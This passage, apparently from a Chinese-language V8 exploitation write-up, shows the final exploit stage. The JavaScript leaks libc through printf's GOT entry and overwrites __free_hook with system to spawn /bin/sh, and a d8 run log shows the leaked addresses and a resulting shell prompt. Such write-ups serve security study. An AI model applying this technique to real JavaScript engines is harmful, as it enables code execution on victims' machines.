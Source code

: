 后面泄露地址和Getshel的代码(get_shell里销毁对象会调用free_hook)：

```js
function get_shell(){
    var shell_str = new String("/bin/sh\0");
}

var printf_got = proc_base + 0xd990d0n;

var printf_addr = read64(printf_got);
console.log("[*] printf addr :0x"+hex(printf_addr));
var libc_base = printf_addr - 0x55800n;
console.log("[*] libc base :0x"+hex(libc_base));
var free_hook = libc_base + 0x3c67a8n;
var system_addr = libc_base + 0x45390n;

writeDataview(free_hook,system_addr);
get_shell();

```

最后成功

```bash
wz@wz-virtual-machine:~/v8/v8/out.gn/x64.release$ ./d8 exp.js 
[*] address of a is 0x00002a0803a078d8
leak process addr success: 000055da25fe3320
[*] Done.
[*] proc base :0x000055da25d33000
[*] printf addr :0x00007fd1ea5be800
[*] libc base :0x00007fd1ea569000
sh: 1: [*]: not found
[*] write to : 0x00007fd1ea92f7a8: 0x00007fd1ea5ae390
sh: 1: : not found
sh: 1: Syntax error: word unexpected (expecting ")")
sh: 1: : not found
sh: 1: Syntax error: word unexpected (expecting ")")
sh: 1: Syntax error: word unexpected (expecting ")")
sh: 1: : not found
sh: 1: : not found
sh: 1:ª: not found
sh: 1: Syntax error: EOF in backquote substitution
sh: 1: newll_strے: not found
sh: 1: Syntax error: word unexpected (expecting ")")
sh: 1: Syntax error: word unexpected (expecting ")")
$ sh: 1: Syntax error: word unexpected (expecting ")")
sh: 1: Syntax error: word unexpected (expecting ")")
sh: 1: Syntax error: EOF in backquote substitution
sh: 1: ��: not found
sh: 1: Syntax error: word unexpected (expecting ")")
sh: 1: Syntax error: word unexpected (expecting ")")
sh: 1: e: not found
sh: 1: e�: not found
sh: 1: e�,Q: not found
sh: 1: e�,Q: not found
sh: 1: e�,Q: not found
sh: 1: @S: not found
sh: 1: pT: not found
sh: 1: 0T: not found
sh: 1: P: not found
sh: 1: �: not found
sh: 1: Syntax error: word unexpected (expecting ")")
sh: 1: Syntax error: word unexpected (expecting ")")
sh: 1: : not found
sh: 1: 肩: not found
```